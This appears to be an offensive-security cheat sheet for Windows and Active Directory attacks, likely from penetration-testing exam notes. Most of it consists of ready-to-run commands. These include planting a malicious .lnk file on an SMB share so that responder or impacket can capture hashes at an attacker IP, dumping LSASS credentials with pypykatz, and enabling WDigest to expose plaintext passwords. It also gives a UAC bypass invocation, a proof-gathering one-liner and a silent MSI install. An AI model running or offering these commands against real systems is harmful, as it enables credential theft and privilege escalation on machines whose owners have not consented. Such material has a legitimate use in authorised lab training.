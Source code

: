 #### Getting a Reverse Shell from SMB (Windows)

You can create a .lnk file with hashgrab.py and impacket's smb server:

```bash
python3 /opt/hashgrab.py 192.168.45.163 test
sudo responder -I tun0
# or impacket-smbserver share share -smb2support
smbclient \\\\$ip\\nara
put test.lnk
# look for hashes in smb server
```

#### Kerberos and Certificates

"https://github.com/nturley3/zeek-kerberos-haters-guide"

#### Extract Hashes from LSASS Dump

```bash
pypykatz lsa minidump lsass.DMP
```

#### Enable WDigest on Newer Machines

While WDigest is disabled on newer machines, it is possible for attackers to enable it so plaintext credentials once a user logs in. WDigest can be enabled by setting the necessary registry key to “1” instead of “0”: 

```bash
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /d 1
```

```bash
nxc smb 192.168.0.76 -u testadmin -p Password123 -M wdigest -o action=enable
```


#### Sid to Name - Name to Sid

```bash
# SID to Name
convertfrom-sid S-1-5-21-3776646582-2086779273-4091361643-1601

# Name to SID
Get-DomainSID -Domain child.red.com
```

#### UAC Bypass

```bash
Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass;. .\UACBypass.ps1
```

#### PWNED

```bash
echo. & echo. & echo whoami: & whoami 2> nul & echo %username% 2> nul & echo. & echo Hostname: & hostname & echo. & ipconfig /all & echo. & echo proof.txt: & type "C:\Users\Administrator\Desktop\proof.txt" 2> nul & type "C:\Documents and Settings\Administrator\Desktop\proof.txt" 2> nul & type %USERPROFILE%\Desktop\proof.txt 2> null
```

#### Executing MSI Package

```bash
msiexec /i c:\users\smelly\desktop\aie.msi /quiet /qn /norestart
```